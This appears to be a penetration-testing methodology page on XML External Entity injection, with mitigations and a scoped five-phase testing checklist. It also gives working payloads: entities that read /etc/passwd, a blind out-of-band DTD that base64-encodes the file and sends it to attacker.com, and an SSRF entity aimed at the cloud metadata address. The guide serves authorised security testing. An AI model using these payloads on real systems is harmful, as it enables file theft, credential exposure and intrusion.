


# XXE

XML External Entity injection testing.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">



</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

XML External Entity (XXE) attacks abuse XML parsers that process external entity declarations. When a parser resolves external entities, attacker-defined URIs can read local files, perform SSRF, or cause denial of service.

Classic payload structure:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

**Blind XXE** uses out-of-band (OOB) callbacks:

```xml
<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd">
%xxe;
```

DTD declares entities that exfiltrate file content via HTTP.

Affected inputs: SOAP APIs, SAML assertions, Office document uploads, SVG, RSS, legacy config import features, and any endpoint accepting XML without hardened parser settings.

Java (`DocumentBuilder`), .NET (`XmlReader` before secure defaults), and PHP (`DOMDocument`) are risky when external entities are enabled.

## Exploitation

**In-band file read**

Post XML with `SYSTEM "file:///etc/passwd"` entity referenced in a response field.

**SSRF via XXE**

```xml
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
```

**Blind exfiltration**

Attacker hosts `evil.dtd`:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?d=%file;'>">
%eval;
%exfil;
```

**Attack flow**

```
XML body with malicious DTD → parser resolves external entity → file/SSRF/OOB leak
```

**Tools**

- Burp Collaborator for OOB detection
- `xxeinjector`, custom Python with `lxml` for testing parser configs

**Denial of service**

Billion laughs / quadratic blowup entity expansion can crash parsers lacking limits.

## Defense & Mitigation

**Disable external entities** in every XML parser:

- Java: `factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)` and disable DTDs.
- .NET: `XmlReaderSettings { DtdProcessing = DtdProcessing.Prohibit }`.
- libxml2: `XML_PARSE_NOENT` must not be combined with network access.

**Prefer JSON** for modern APIs unless XML is required.

**Input validation**

- Reject DOCTYPE declarations at the byte level if feasible.
- Use whitelisted schemas without custom DTD processing.

**Network**

- Block egress from parsers to metadata and internal IPs.

**Library updates**

- Keep parser libraries patched; defaults vary by version.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Locate XML parsers: SOAP, SAML, RSS, Office uploads, SVG

### Phase 2 — Discovery & Mapping

- [ ] Identify endpoints accepting `application/xml` or file uploads
- [ ] Test basic external entity: `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`
- [ ] Check JSON endpoints that accept `__proto__` or XML content types
- [ ] Review document import and data interchange features

### Phase 3 — Validation & Testing

- [ ] Confirm file read or SSRF via entity expansion
- [ ] Test blind XXE with OOB DTD on collaborator server
- [ ] Try parameter entities and error-based exfiltration
- [ ] Validate billion-laughs DoS only in isolated lab

### Phase 4 — Exploitation & Impact Proof

- [ ] Extract one file or internal HTTP request as proof
- [ ] Demonstrate SSRF to metadata service if cloud-hosted
- [ ] Avoid disruptive DoS payloads on production
- [ ] Document parser library and version

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Disable external entities and use defused XML parsers

## Tools

| Tool | Usage |
|------|-------|
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |
| `xxeinjector` | [XXE payload generator](../../TOOLS_GUIDE.md#xxeinjector) |
| `oxmlxxe` | [Office XML XXE](../../TOOLS_GUIDE.md#oxmlxxe) |

## Resources

- [PortSwigger XXE](https://portswigger.net/web-security/xxe)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
